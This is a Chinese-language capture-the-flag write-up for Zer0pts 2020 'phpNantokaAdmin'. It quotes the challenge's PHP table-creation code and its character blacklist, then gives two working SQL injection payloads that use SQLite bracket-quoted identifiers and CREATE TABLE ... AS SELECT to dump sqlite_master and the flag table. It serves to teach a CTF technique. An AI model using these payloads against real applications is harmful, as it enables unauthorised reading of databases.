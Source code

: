 # \[Zer0pts2020]phpNantokaAdmin

## \[Zer0pts2020]phpNantokaAdmin

## 考点

* sqlite3 select特性
* sqlite3建表语法

## wp

题目功能流程如下

![](<../.gitbook/assets/image (30).png>)

填参数，点下一步，最后的请求是向/?page=create发送 POST请求，请求内容如下

```
table_name=test&columns[0][name]=testa&columns[0][type]=INTEGER
```

然后请求/?page=index，来到插入数据的页面

![](<../.gitbook/assets/image (4).png>)

向/?page=insert发送POST请求，内容如下

```
values[]=1&values[]=2&values[]=3
```

然后请求/?page=index

![](<../.gitbook/assets/image (33) (1).png>)

那么后台的语句可能如下

```sql
CREATE TABLE test(
   dummy1 TEXT,
   dummy2 TEXT,
   testa INTEGER,
);

INSERT INTO test (dummy1,dummy2,testa) 
          VALUES ('1', '2', 3);
```

但是`testa`那个字段输入字母也会成功插入

![](<../.gitbook/assets/image (1).png>)

然后找信息，啥都没找到，直接用BUU给的代码吧

三个文件，config.php定义flag位置，`flag_bf1811da`表的`flag_2a2d04c3`字段

util.php存放自定义函数，index.php实现路由和视图功能

先说自定义的函数，`redirect($path)`调用header函数进行重定向页面，`flash($message, $path = '?page=index')`向session中写入信息，`e($string)`把string使用`htmlspecialchars($string, ENT_QUOTES)`进行转义，只编码双引号和单引号，`is_valid($string)`判断输入是否含有如下字符

```
["#'()*,\/\\`-]
```

然后index.php，全部采用pdo的方式操作数据库

如果session中存在database字段，就返回`flag_bf1811da`表和`flag_2a2d04c3`字段

insert部分就直接使用insert语句插入POST的values数组，delete是直接清空session，新建一个空白的session

看新建表的地方

要输入表名和列名，只有表名被强制转换为字符串，然后是对表名和列名的限制

```php
  $table_name = (string) $_POST['table_name'];
  $columns = $_POST['columns'];
  $filename = bin2hex(random_bytes(16)) . '.db';
  $pdo = new PDO('sqlite:db/' . $filename);
  if (!is_valid($table_name)) {
    flash('Table name contains dangerous characters.');
  }
  if (strlen($table_name) < 4 || 32 < strlen($table_name)) {
    flash('Table name must be 4-32 characters.');
  }
  if (count($columns) <= 0 || 10 < count($columns)) {
    flash('Number of columns is up to 10.');
  }
```

最后是SQL语句的拼接

```php
  $sql = "CREATE TABLE {$table_name} (";
  $sql .= "dummy1 TEXT, dummy2 TEXT";
  for ($i = 0; $i < count($columns); $i++) {
    $column = (string) ($columns[$i]['name'] ?? '');
    $type = (string) ($columns[$i]['type'] ?? '');

    if (!is_valid($column) || !is_valid($type)) {
      flash('Column name or type contains dangerous characters.');
    }
    if (strlen($column) < 1 || 32 < strlen($column) || strlen($type) < 1 || 32 < strlen($type)) {
      flash('Column name and type must be 1-32 characters.');
    }

    $sql .= ', ';
    $sql .= "`$column` $type";
  }
  $sql .= ');';
```

最终SQL执行顺序

```
CREATE TABLE `FLAG_TABLE` (`FLAG_COLUMN` TEXT);
INSERT INTO `FLAG_TABLE` VALUES ("FLAG");
CREATE TABLE {$table_name} (dummy1 TEXT, dummy2 TEXT, `$column` $type);
```

可控点就是table\_name、column和type

payload

```
table_name=aaaa+as+select+[sql][&columns%5B0%5D%5Bname%5D=]from+sqlite_master;&columns%5B0%5D%5Btype%5D=INTEGER
```

相当于`CREATE TABLE aaaa as select [sql] from sqlite_master;`

![](<../.gitbook/assets/image (24).png>)

payload

```
table_name=aaaa+as+select+[flag_2a2d04c3][&columns%5B0%5D%5Bname%5D=]from+flag_bf1811da;&columns%5B0%5D%5Btype%5D=INTEGER
```

相当于`CREATE TABLE aaaa as select [flag_2a2d04c3] from flag_bf1811da;`

![](<../.gitbook/assets/image (11).png>)



## 小结

1. sqlite3在select时，如果列使用`[]`、`""`、` `` `包裹时会自动忽略这些符号之后的列名
2. sqlite3可以使用`create table ... as select ... from ...` 来复制表
